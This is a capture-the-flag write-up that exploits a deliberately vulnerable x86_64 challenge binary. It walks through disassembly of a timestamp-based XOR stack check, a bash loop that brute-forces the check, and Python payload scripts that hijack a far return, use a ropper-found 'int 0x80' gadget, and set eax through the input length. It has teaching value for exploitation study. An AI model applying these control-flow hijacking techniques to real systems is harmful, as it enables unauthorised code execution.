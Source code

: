 We gonna take a crack at a meduim binary exploitation challenge by Touhami Kasbaoui.

This is the link for the binary:

http://tracker.0btemoslab.com/challenges/take-it-easy

![file](https://pouch.jumpshare.com/preview/zlejgyvYLyHjzNh9Ymf8nOJE5Y9XUyV811MVVYOBjty4jWyd9mBPAR97IEnHrzB9xQysGijYlM7l3EWEjMzh9TJprjKJn4snkOQIlHyX-Do)

As you can see, it's a stripped x86_64 ELF binary. Let's check the ELF header.

![readelf -h header](https://pouch.jumpshare.com/preview/BvNXIFjQp8f6YqGbVYaneC7wiItwdnqsmDoPnC9lQo2LDFrfY55bpSL4txKwahbLoNhnxBMJByu6RUbd6OsSyTJprjKJn4snkOQIlHyX-Do)

What we can learn from this, is that the entry point to this binary is at **0x400144**.

Let's execute the binary.

![./take-it-easy](https://pouch.jumpshare.com/preview/7MlrxrrC7lC1fLIyllR8XvdoDB-u6fFgxxlA0ec3_ifr268PTCZ_oX1v4Q1NpCUdH_5BUel3Fq_kXqVIVHC5bxA1jQB_zmxltR5bgJ1-nls)

As you can see that the binary output "input" and read characters from the stdin, After that output "checkser" and read again. Let's use gdb to examine what's happening.

*NOTE: Remember that it is a stripped binary so no symbols are available, we need to break at the entry point address 0x400144*

![gdb take-it-easy](https://pouch.jumpshare.com/preview/bnDtseOR67PEK6j0LtLkudqvKTKEiLcTtURiqQ4-t0DN7SNmTUG5C9KRUe0AaiezR6DQnalSTy3EhLe3szKU4BA1jQB_zmxltR5bgJ1-nls)

You can use the gdb to go step by step with instructions and use ***i r*** to list the registers and examine there values.

[GDB-PEDA](https://github.com/longld/peda) is a great extension that will help you visualize the register and the stack more easily.

This is the instructions the binary contain:

```

   0x400144:	mov    rax,0x1
   0x40014b:	mov    rdi,0x1
   0x400152:	movabs rsi,0x6000000                ("input\n")
   0x40015c:	mov    rdx,0x6
   0x400163:	syscall                             write syscall  
   0x400165:	xor    rax,rax
   0x400168:	xor    rdi,rdi
   0x40016b:	movabs rbx,0x6000400
   0x400175:	mov    rsi,rbx
   0x400178:	mov    rdx,0x8                     reads 8Bytes
   0x40017f:	syscall                            read syscall
   0x400181:	rdtsc                              Read Time-Stamp Counter
   0x400183:	xor    rax,rdx                     XOR rax and rdx that contain the Time-Stamp
   0x400186:	mov    rdi,rbx
   0x400189:	mov    rcx,0x0
   0x400190:	mov    rdi,rbx                     --------------------------------------------
   0x400193:	add    rdi,rcx                       A loop that iterate on the buffer read 
   0x400196:	xor    BYTE PTR [rdi],al               before and perfome an xop operation
   0x400198:	inc    rcx                              on each byte and the al register
   0x40019b:	cmp    rcx,0x8
   0x40019f:	jl     0x400190                    --------------------------------------------
   0x4001a1:	mov    rax,QWORD PTR [rbx]
   0x4001a4:	push   rax                         Push the modified buffer to the stack
   0x4001a5:	sub    rsp,0x20                    Subtract the rsp pointer
   0x4001a9:	mov    rax,0x1
   0x4001b0:	mov    rdi,0x1
   0x4001b7:	movabs rsi,0x6000007               (checkser\n)
   0x4001c1:	mov    rdx,0xa
   0x4001c8:	syscall                            write syscall
   0x4001ca:	xor    rax,rax
   0x4001cd:	xor    rdi,rdi
   0x4001d0:	mov    rsi,rsp                     store the buffer read directly on the stack
   0x4001d3:	mov    rdx,0x100                   reads 256Bytes
   0x4001da:	syscall                            read syscall
   0x4001dc:	add    rsp,0x20                    restore the stack to it's original address wish mean 32Byte of out input is ignored
   0x4001e0:	mov    rdi,0x1
   0x4001e7:	mov    rsi,0x3
   0x4001ee:	mov    rdx,0x3
   0x4001f5:	mov    rcx,0x7
   0x4001fc:	cmp    rax,0x20                    If the buffer size read is less than or equal to 32Byte then the program exit
   0x400200:	jle    0x400214
   0x400202:	pop    r11                         pop the buffer from the stack
   0x400204:	xor    r11,QWORD PTR [rbx]         check if the buffer was tampred with
   0x400207:	jne    0x400214
   0x400209:	mov    QWORD PTR [rsp+0x8],0x23    set 0x23 at the rsp+0x8 wish will set the code segment at the return far
   0x400212:	retfq                              return far wish pop the instruction address and code segment from the top of the stack
   0x400214:	mov    rax,0x3c
   0x40021b:	mov    rbx,0x0
   0x400222:	syscall                            exit syscall

```

The main part that jumped out to me is the loop that modify the buffer we input using the Read Time-Stamp Counter.

[RDTSC](https://c9x.me/x86/html/file_module_x86_id_278.html)

Loads the current value of the processor's time-stamp counter into the EDX:EAX registers. The time-stamp counter is contained in a 64-bit MSR. The high-order 32 bits of the MSR are loaded into the EDX register, and the low-order 32 bits are loaded into the EAX register.

[x86_64 registers](https://wiki.osdev.org/CPU_Registers_x86-64)

![x86_64 registers](https://askcodez.com/images2/155807970253616.png)

[XOR](https://www.loginradius.com/blog/engineering/how-does-bitwise-xor-work/#:~:text=XOR%20is%20a%20bitwise%20operator,X)

![XOR](https://i.stack.imgur.com/qncwi.png)

Let's run the debugger and see if we can understand what's going on.

*I am going to provide an input of "AAAAAAAA".*

![gdb take-it-easy](https://pouch.jumpshare.com/preview/xZkkhLGGgCjy_l4-s9YEWNqvAuxNqR8NWdIN0Mgk9h6r-wn3395rj10n486AkehIYwo3AGyPdvSQKNUULLGFqzJprjKJn4snkOQIlHyX-Do)

As you can see our input got modified using the xor operation with the $al register wish is read from the time stamp counter. We have no control over the time stamp counter, but knowing the nature of CPU's the time stamp counter is geting incremented each second with an insane speed. 

The second read syscall allow us to store directly into the stack. Knowing that all we have to do is write the next instruction address to the stack and return far will pop it giving us control. But to write our address to the stack we need to overwrite the value pushed before, thus the program quit as it checks if the stack got tampred with.

```
   0x400204:	xor    r11,QWORD PTR [rbx]
   0x400207:	jne    0x400214
```

As said before the time stamp counter will be modified every time we execute the binary. We can brute force the time stamp counter by executing the binary in an infinite loop until one time the sanitization output will be the same as a value we set into the stack thus the check will pass allowing us to write out own address to the stack.

```
#!/bin/bash
while [ 1 ]
do
  echo "---------- starting ------------"
  ./take-it-easy < inputs > /dev/null # execute the binary and redirect stdout to /dev/null so the stdout won't be fludded
  if [ $? -eq 139 ] # check if the binary triggred a SEGV signal
  then
    break
  fi
  echo "---------- end ----------------"
done
```

*I am going to provide an input of "AAAAAAAAVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVV".*

![./exploit.sh](https://pouch.jumpshare.com/preview/7ve7SjqX_uPWYeujlAKeB3wbwPIqfKjQ2C9887EQyctySB8GCtLDMKzYH8nSNiNvOv0AQfWUmJzbl37Sgn2OTxA1jQB_zmxltR5bgJ1-nls)

The first buffer check is bypassed. Know let's inject an address to the stack and see if we can get control of the instruction pointer after the return far call.

*I am going to write to the stack the address of the write checkser address 0x4001a9. We are expecting to see checkser output two times*

```
fo = open("payload", "wb")

payload = b'A'*8 # the first input

payload += b'X'*40 # 0x20 the the stack get added with + 8 Bytes of the poped buffer

payload += b"\xa9\x01\x40\x00\x00\x00\x00\x00" # the address is inverted because of little endianness

fo.write(payload)

fo.close()
```

![./exploit.sh](https://pouch.jumpshare.com/preview/8c0RpMeHe5QjTQDLpHu9PncHxWIbsc4C4D9IzfH62G73FBk-rICMjSIjL4wKrWguiq5rWBkcjZp8NeZyfgmcfDJprjKJn4snkOQIlHyX-Do)

**No double checkser!? what's going on?**

We overlook something. return far does more than pop the instruction address from the stack, it also pop another byte to set the code segment register setting it with a value of 0x23. After the return far the code now is running on 32 bit mode. We can test that by loocking for 32 bit instruction and try to execute them.

```
   0x400214:	mov    rax,0x3c
```

After using a tool called ropper that look for gadgets in the binary, i found a gadget that call a system call. *int 0x80*

![ropper](https://pouch.jumpshare.com/preview/dYhIS75pQl2ijWxcym8Ky8KWzAQ77Skl22UrL8ArM7s00HL9VVjcNFuBG2wjmOK9wQbIzcOpD1Z6nKpdFClmKjJprjKJn4snkOQIlHyX-Do)

![gdb](https://pouch.jumpshare.com/preview/e6y-U3rpzjmLBjYdP8_ZcgQ1UpF6nJdfbWn2RX_qg8JUmNZBZ1x1-Hmulw2YiG1F8xPQiU4VEiHwy8nwRvV6zTJprjKJn4snkOQIlHyX-Do)

We can also controll the eax register because it was never reset after the last read syscall. Wish mean that the eax register will be set by the lenght of out last input. But it will be limited because we can't input a buffer less than 33 Byte plus the address of the gadget and the max is 256 Bytes.

```
   0x4001ca:	xor    rax,rax
   0x4001cd:	xor    rdi,rdi
   0x4001d0:	mov    rsi,rsp
   0x4001d3:	mov    rdx,0x100
   0x4001da:	syscall
```

[x86 syscall table](https://x86.syscall.sh/)

I am going to use olduname to test and run the binary using the debugger to examine the registers.
***For debugging i bypass the buffer check by setting rbx to the value of r11, set *((unsigned long *) 0x6000400)=$r11***

```
fo = open("payload", "wb")

payload = b'A'*8

payload += b'X'*40

payload += b"\x37\x01\x40\x00\x00\x00\x00\x00"

payload += b'A'*61

fo.write(payload)

fo.close()
```

![gdb](https://pouch.jumpshare.com/preview/AsHoOU5CT2iZHkvVBfqYQNFqH6CvdobkJByIPqsCOUnDXw942AAj4hVveVsUk2l-alTpIrR-BYGnczTHh_-m5BA1jQB_zmxltR5bgJ1-nls)

We can see that olduname got executed succesfully, and also we can see that the esp point to an invalid address because of the switch to 32bit mode.


